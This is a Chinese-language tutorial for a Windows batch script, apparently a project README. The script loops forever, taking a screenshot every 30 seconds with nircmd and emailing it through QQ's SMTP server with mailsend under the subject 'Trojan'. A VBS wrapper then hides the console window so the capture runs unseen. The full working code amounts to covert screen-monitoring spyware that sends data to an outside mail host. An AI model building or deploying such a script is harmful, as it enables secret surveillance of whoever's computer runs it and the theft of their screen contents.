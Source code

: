 # 脚本提示

先关闭批处理的回显：

```batch
@echo off
```

然后设置 `PATH` 环境变量为当前目录下的 `bin` 子目录，此处应该使用 `PATH` 命令。用法为:

```batch
PATH path
```

同时要注意使用 `%CD%` 来获取当前目录。

然后进入循环，这里使用 `goto` 来实现永远循环。

```batch
:loop

REM do something

goto loop
```

使用 `bin` 目录下的 `nircmd` 来实现截屏：

```batch
nircmd savescreenshot 1.png
```

使用 `bin` 目录下的 `mailsend` 来实现邮件发送，以 QQ 邮箱为例：

```batch
mailsend -to <dest_mail_address> -from <src_mail_address> -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "Trojan" -user <username> -pass "<password>" -attach <image_path>
```

请将上面的命令中 `<>` 包裹起来的内容替换为你自己的内容然后去掉尖括号，其中 `dest_mail_address` 应该替换为收件邮箱地址，`src_mail_address` 替换为发件邮箱地址，`username` 替换为 QQ 邮箱用户名， `password` 替换为 QQ 邮箱的一次性客户端密码，`image_path` 替换成图片文件名，比如 `1.png` 。

使用 `bin` 目录下的 `nircmd` 来实现等待一段时间：

```batch
nircmd wait 30000
```

### 开始我的自动化脚本

1. 创建一个记事本文件，命名为"scripts.bat"然后打开vscode把文件拖进去开始编辑文件
2. 写入如下代码：
```batch
@echo off

PATH %CD%\bin

:loop

nircmd savescreenshot screen.png

mailsend -to 邮箱地址 -from 邮箱地址 -ssl -port 465 -auth-login -smtp smtp.qq.com -sub "所发的邮件名字" -user 193319076 -pass "密码" -attach screen.png

nircmd wait 30000

del screen.png

goto loop
```
3. 点击运行，就可以收到邮件了
   ![预览](.\img\1.png)
   点开就是截图
   ![截图](.\img\2.png)
---
---
4. 然后隐藏黑框的方法：
   scripts.bat同目录下新建一个记事本并写入如下代码
```batch
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
WScript.Sleep(0000)
Wsh.Run "scripts.bat",0,True
```
然后把文件后缀给成vbs
就可以实现隐藏黑框了
